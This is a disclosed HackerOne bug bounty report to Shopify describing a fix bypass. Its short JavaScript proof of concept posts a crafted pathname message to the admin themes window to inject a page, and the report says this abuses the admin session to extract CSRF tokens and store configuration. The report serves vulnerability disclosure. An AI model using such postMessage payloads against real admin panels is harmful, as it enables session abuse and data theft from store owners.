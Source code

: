 # Inject page in admin panel via Shopify.API.pushState [New Payload]

## Report Details
- **Report ID**: 883867
- **URL**: https://hackerone.com/reports/883867
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-05-27T19:05:49.705Z
- **Disclosed**: 2020-12-27T22:14:47.302Z

## Reporter
- **Username**: tiago-danin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
The correction for #868615, allows you to use new payload:

```js
const ctx = window.open(location.origin+'/admin/themes', '_blank')
const data = JSON.stringify({
                  message: 'Shopify.API.replaceState',
                  data: {pathname: "abc:d../pages/xss#//"}
});
ctx.postMessage(data)
```

## Impact

Abuse the active admin session to extract data as:

- CSRF token.
- Store config.

## Attachments
No attachments
